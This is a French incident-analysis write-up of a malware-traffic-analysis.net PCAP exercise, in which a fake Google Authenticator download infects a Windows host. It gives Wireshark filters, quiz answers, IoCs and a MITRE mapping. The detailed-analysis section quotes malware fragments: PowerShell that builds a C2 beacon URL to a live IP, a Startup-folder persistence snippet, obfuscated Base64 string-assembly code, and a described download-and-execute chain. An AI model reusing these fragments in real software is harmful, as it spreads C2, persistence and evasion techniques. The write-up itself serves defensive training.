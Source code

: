 ## 🕵️‍♂️ MTA-2025-01-22

🔍[Source](https://www.malware-traffic-analysis.net/2025/01/22/index.html) 


---

### 📌 Contexte

- Un utilisateur télécharge un faux logiciel (Google Authenticator) depuis un site frauduleux, entraînant l’infection de son poste Windows et la communication avec plusieurs serveurs C2. 
- Ce document contient une **analyse pas-à-pas avec captures d’écran** pour chaque question.
  
<img src="images/open.png" alt="open" width="800"/>

---

### 🧰 Outils utilisés

- [Wireshark](https://www.wireshark.org/download.html)
- [Kali Linux](https://www.kali.org/)
- [VMware](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)
- [VirusTotal](https://www.virustotal.com/gui/home/upload)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [CyberChef](https://gchq.github.io/CyberChef/)

---

### 📝 Questions & Analyse

#### Q1. What is the IP address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Ouvrir le PCAP (via terminal ou fichier directement)

  - Étape 2 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`10.1.17.215`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q1.png" alt="q1" width="800"/>
</details>


---

#### Q2. What is the mac address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`00:d0:b7:26:4a:74`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q2.png" alt="q2" width="800"/>
</details>


---

#### Q3. What is the host name of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Dans certains PCAPs, tu peux retrouver le nom d’hôte Windows de la victime grâce au trafic **NBNS ou SMB/SMB2**. Utiliser le filtre approprié.

        nbns or smb or smb2
</details>


<details>
  <summary>✅ Réponse</summary>
  
`DESKTOP-L8C5GSJ`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q3.png" alt="q3" width="800"/>
</details>


---

#### Q4. What is the user account name from the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer les paquets Kerberos provenant de la machine infectée.
  
          ip.src == 10.1.17.215 and kerberos.CNameString
    
  - Étape 2 : Inspecter le champ `CNameString` dans le panneau *Packet Details* pour relever le nom d’utilisateur.
</details>


<details>
  <summary>✅ Réponse</summary>
  
`shutchenson`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q4.png" alt="q4" width="800"/>
</details>


---

#### Q5. What is the likely domain name for the fake Google Authenticator page?
<details>
    <summary>💡 Étapes</summary>
    
- Étape 1 : Appliquer un filtre pour isoler les requêtes DNS émises par l’hôte 10.1.17.215.
  
      ip.src == 10.1.17.215 && (dns && dns.flags.response == 0) && dns.qry.name matches "(auth|google|authenticator)"
  
      ⚠️ dns.flags.response == 0 pour ne filtrer que les DNS queries initiées par le client.
- Étape 2 : Repérer le ou les domaines suspects qui imitent Google Authenticator.

      ⚠️ Un domaine avec une faute de frappe évidente (ex. double "o") est généralement un signe de domaine malicieux.

- Étape 3 : Vérifier les réponses DNS pour obtenir les adresses IPv4 résolues par ces domaines.
    
        (dns.qry.name == google-authenticator.burleson-appliance.net || dns.qry.name == authenticatoor.org) && dns.flags.response == 1 && dns.qry.type == 1

      ⚠️ dns.flags.response == 1 capture uniquement les réponses (!= client).
      ⚠️ dns.qry.type == 1 limite aux enregistrements A (== IPv4).
  
- Étape 4 : Vérifier la réputation des domaines/IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).



</details>  

<details>
  <summary>✅ Réponse</summary>
  
`google-authenticator.burleson-appliance.net`

`authenticatoor.org`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q5a.png" alt="q5a" width="800"/>
<img src="images/q5b.png" alt="q5b" width="800"/>
<img src="images/q5c.png" alt="q5c" width="800"/>
<img src="images/q5d.png" alt="q5d" width="800"/>
<img src="images/q5e.png" alt="q5e" width="800"/>
<img src="images/q5f.png" alt="q5f" width="800"/>
<img src="images/q5g.png" alt="q5g" width="800"/>
<img src="images/q5h.png" alt="q5h" width="800"/>
<img src="images/q5i.png" alt="q5i" width="800"/>
<img src="images/q5j.png" alt="q5j" width="800"/>
<img src="images/q5k.png" alt="q5k" width="800"/>
</details>


<details>
  <summary>🔗 Liens VirusTotal</summary>
    
[google-authenticator.burleson-appliance[.]net](https://www.virustotal.com/gui/domain/google-authenticator.burleson-appliance.net)

[authenticatoor[.]org](https://www.virustotal.com/gui/domain/authenticatoor.org)

[104.21.64[.]1](https://www.virustotal.com/gui/ip-address/104.21.64.1)

[82.221.136[.]26](https://www.virustotal.com/gui/ip-address/82.221.136.26)

</details>


---


#### Q6. What are the IP addresses used for C2 servers for this infection?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Appliquer un filtre pour identifier tous les adresses IP sortants de l’hôte infecté.

        ip.src == 10.1.17.215 && (http.request or tls.handshake == 1 or (tcp.flags.syn == 1 && tcp.flags.ack == 0)) && !(ssdp) && ip.dst != 10.1.17.0/24
        
  - Étape 2 : Filtrer les adresses IP internes/légitimes
    
          ⚠️ Trafic vers réseau interne (10.1.17.0/24)
          ⚠️ Services connus comme Microsoft, Google, Edge, etc.

  - Étape 3 : Vérifier la réputation des adresses IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).
</details>


<details>
  <summary>✅ Réponse</summary>
  
`5.252.153[.]241`

`45.125.66[.]32`

`45.125.66[.]252`

</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q6a.png" alt="q6a" width="800"/>
<img src="images/q6b.png" alt="q6b" width="800"/>
<img src="images/q6c.png" alt="q6c" width="800"/>
</details>

<details>
  <summary>🔗 Liens VirusTotal</summary>

[5.252.153[.]241](https://www.virustotal.com/gui/ip-address/5.252.153.241)

[45.125.66[.]32](https://www.virustotal.com/gui/ip-address/45.125.66.32)

[45.125.66[.]252](https://www.virustotal.com/gui/ip-address/45.125.66.252)

</details>


---

### 🕵️‍♂️ Rapport d'incident
<details>

    
#### 📌 Résumé

Le 2025-01-22 à 15:03 UTC, un poste Windows utilisé par l’utilisateur `shutchenson` a été compromis suite au téléchargement d’un logiciel frauduleux depuis un site imitant Google Authenticator (`authenticatoor[.]org`).

Le malware a installé plusieurs fichiers malveillants, mis en place un mécanisme de persistance au démarrage, et établi une communication avec plusieurs serveurs de command-and-control (C2) pour assurer un contrôle continu de la machine compromise.

---

#### 🖥️ Détails de la victime

- Nom d'utilisateur : `shutchenson`
- Nom d'hôte : `DESKTOP-L8C5GSJ`
- IP locale : `10.1.17[.]215`
- Adresse MAC : `00:d0:b7:26:4a:74`

---
#### 🚨 Indicateurs de compromission (IoCs)

Domaines/URLs suspects :
- `google-authenticator.burleson-appliance[.]net`
- `authenticatoor[.]org` 

Serveurs C2 :
- `5.252.153[.]241`
- `45.125.66[.]32`
- `45.125.66[.]252`

Ports :
- `TCP/80 (HTTP)`
- `TCP/443 (HTTPS)`

Fichiers suspects :
- `TeamViewer[.]exe` 
- `TV[.]dll` 
- `pas[.]ps1`
- `skqllz[.]ps1`

Persistance :
- Raccourci dans le dossier Startup `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\TeamViewer.ln`

---

#### 🔍 Analyse Détaillée
<details>
    
1️⃣ Extraction et exécution de scripts

- Le client effectue une requête `GET /api/file/get-file/264872` et récupère un composant HTML contenant un **VBScript**.
- Le VBScript télécharge et exécute un script PowerShell depuis `http://5.252.153[.]241:80/api/file/get-file/29842.ps1`.
- L’exécution est masquée grâce à `-WindowStyle Hidden` et `start /min`.
- Ouverture d’un site légitime (https://azure.microsoft.com) pour distraire l’utilisateur.
- Gestion des erreurs avec `On Error Resume Next` afin d’assurer la continuité du script.

2️⃣ PowerShell initial (`29842.ps1`)

- Contient une chaîne Base64 dissimulée via `.replace()`.
- Décodage et exécution dynamique avec `Invoke-Expression`.
- Identification de l’hôte **via le numéro de série du disque C:**

```$fso = New-Object -Com "Scripting.FileSystemObject"
$SerialNumber = $fso.GetDrive("c:\").SerialNumber
$SerialNumber = [convert]::toint64($SerialNumber,16)
$serial = $SerialNumber
$ip = 'http://5.252.153.241/'
$url = $ip+$serial
```

- Boucle infinie de téléchargement et exécution de commandes depuis le serveur C2, avec l'ajout de pauses de 5 secondes pour limiter la détection.

3️⃣ Téléchargement de fichiers et persistance

- Création du dossier `C:\ProgramData\huo` et téléchargement de plusieurs fichiers :
- `TeamViewer.exe` → exécutable principal
- `Teamviewer_Resource_fr.dll` → bibliothèque de support
- `TV.dll` → bibliothèque additionnelle
- `pas.ps1` → script secondaire
- Création d’un raccourci dans le dossier Startup pour assurer la persistance (`.lnk`):

```
$shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"
Create-Shortcut $startupFilePath $shortcutPath
```

4️⃣ PowerShell furtif (`skqllz.ps1`)

- Décodage Base64 pour générer le script principal ([CyberChef](https://gchq.github.io/CyberChef/) pour décodage)
  - Script dissimulé avec des variables aléatoires, concaténations et remplacement de caractères.
```
$NOtpWmSIdODGSpZw = 'dXNpb'
$AwoVYrdnaRqwQwIR = ('PjbXUKllmrzPjbXUKmcgU' -split 'PjbXUK')[2]
$bipxzxdxTeWltRuZETo = $NOtpWmSIdODGSpZw + $AwoVYrdnaRqwQwIR
$AkEiJsIqpXZniGUAcwgi = '3lzdG'
$GQXMEUFkfQKNrHz = $AkEiJsIqpXZniGUAcwgi
$lNcnDkYznZYNGS = 'V}t}O}w}p}'.replace('}', '')
$roSPFHOnzUB = $lNcnDkYznZYNGS
$xtZaRGRfwoDKOIahvtc = '1&c&2&'.replace('&', '')
$IDdoQNfyQZT = 'luZ'
$XiGbBTVOcETNtwj = ('qrTLBVPRRAHmqrTLBVPyBTeXqrTLBVPvJTdeqrTLBVPPDQbxSu' -split 'qrTLBVP')[2]
$bPJnndNVDE = $xtZaRGRfwoDKOIahvtc + $IDdoQNfyQZT + $XiGbBTVOcETNtwj
$iMomIPCvExLjuGt = 'N$0$Z$W$'.replace('$', '')
$aMCdlKxvWQWiMMrpeNo = '0uR'
$msNRjJFmsMhGoY = $iMomIPCvExLjuGt + $aMCdlKxvWQWiMMrpeNo
$VJDojDmCsLH = 'G>l>h>Z>'.replace('>', '')
$jJIgFRcpeRTQy = $VJDojDmCsLH
$EnWYnyGvsLIru = '25vc3'
$eqBMcYdMsVINSfPI = 'R*p*Y*'.replace('*', '')
$yvpQqviAJjIhvSec = $EnWYnyGvsLIru + $eqBMcYdMsVINSfPI
$UfqlNesTeHGhLSEt = '3;M;7;C;'.replace(';', '')

```

- Exécution en arrière-plan via `Start-Process`.
- Envoi régulier de logs au serveur C2 avec la fonction `Send-Log`.




5️⃣ Investigation des fichiers dans [VirusTotal](https://www.virustotal.com/gui/home/url)

<img src="images/export.png" alt="export" width="800"/>

- Le fichier `[TeamViewer[.]exe]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e `
- Type : Win32 EXE (4.18MB)
- Community score :
- [Lien VirusTotal](https://www.virustotal.com/gui/file/904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e/details)

---

- Le fichier `[TeamViewer_Resource[.]dll]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192 `
- Type : Win32 DLL file (653.29KB)
- Community score : flagged 0 sur 72 == probablement clean (ou non reconnu)
- [Lien VirusTotal](https://www.virustotal.com/gui/file/9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192/details)

---

- Le fichier `[TV[.]txt]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7`
- Type : Win32 DLL file (12,62KB)
- Community score : flagged par 44 sur 72 == probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7/details)

---

- Le fichier `pas[.]ps1` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e`
- Type : TXT file (1513 bytes)
- Community score : flagged par 24 sur 60 == probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e/details)




</details>

---

#### 🕵️ MITRE ATT&CK Mapping
<details>
    
| Tactique                     | Technique (ID)                              | Description |
|-------------------------------|--------------------------------------------|------------------|
| Initial Access                | [Drive-by Compromise (T1189)](https://attack.mitre.org/techniques/T1189/)                | Téléchargement du logiciel frauduleux depuis un site imitant Google Authenticator |
| Execution                     | [PowerShell (T1059.001)](https://attack.mitre.org/techniques/T1059/001/)                     | Exécution de scripts PowerShell dissimulés |
| Persistence                   | [Startup Items (T1547.001)](https://attack.mitre.org/techniques/T1547/001/)                  | Raccourci dans le dossier Startup pour exécution automatique |
| Defense Evasion               | [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)   | Scripts PowerShell et VBScript fortement dissimulés |
| Command and Control (C2)      | [Web Service (T1071.001)](https://attack.mitre.org/techniques/T1071/001/)                    | Communication avec serveur C2 via HTTP |
| Discovery                     | [System Information Discovery (T1082)](https://attack.mitre.org/techniques/T1082/)      | Récupération du numéro de série du disque pour identification unique |

</details>

---

#### 🛡️ Actions correctives recommandées

1. **Isolation** : déconnecter le poste pour stopper toute propagation.
2. **Blocage des IP malveillantes** : filtrer les adresses C2 sur le pare-feu et la passerelle.
3. **Analyse forensique** : identifier tous les fichiers et scripts malveillants sur le poste et le réseau.
4. **Audit des logs** : détecter toute activité suspecte supplémentaire.
5. **Renforcement des défenses** : mettre à jour antivirus, solutions EDR et restrictions PowerShell.
6. **Sensibilisation des utilisateurs** : rappeler les bonnes pratiques pour éviter les téléchargements depuis des sources non fiables.

---

#### 🔹 Conclusion

L’incident a été limité à un seul poste à ce stade, mais le potentiel de propagation et d’exfiltration de données reste élevé. La mise en œuvre rapide des actions correctives est cruciale pour sécuriser l’environnement et prévenir d’éventuelles attaques futures.
</details>

